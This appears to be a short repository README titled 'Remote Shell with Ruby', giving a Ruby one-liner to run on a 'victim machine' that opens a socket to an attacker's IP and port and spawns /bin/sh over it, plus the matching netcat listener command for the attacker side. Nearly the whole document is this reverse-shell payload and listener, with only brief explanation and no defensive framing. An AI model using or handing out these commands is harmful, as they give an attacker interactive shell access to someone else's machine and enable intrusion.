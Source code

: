 # Remote Shell with Ruby using a remote machine

Script executed on the "Victim machine"

`ruby -rsocket -e 'f=TCPSocket.open([IP], [PORT]).to_i';exec sprintf('/bin/sh -i <&%d 2>&%d',f,f,f)`

Executes a socket communication and connects to an specified IP address (the Host of the attacker machine), later executes a sprintf command for getting a shell remotely.

On the attacker side, we use Netcat for hearing the activities on the previous code using the exact same PORT between both machines:

`nc -vvvv -l -p [PORT]`
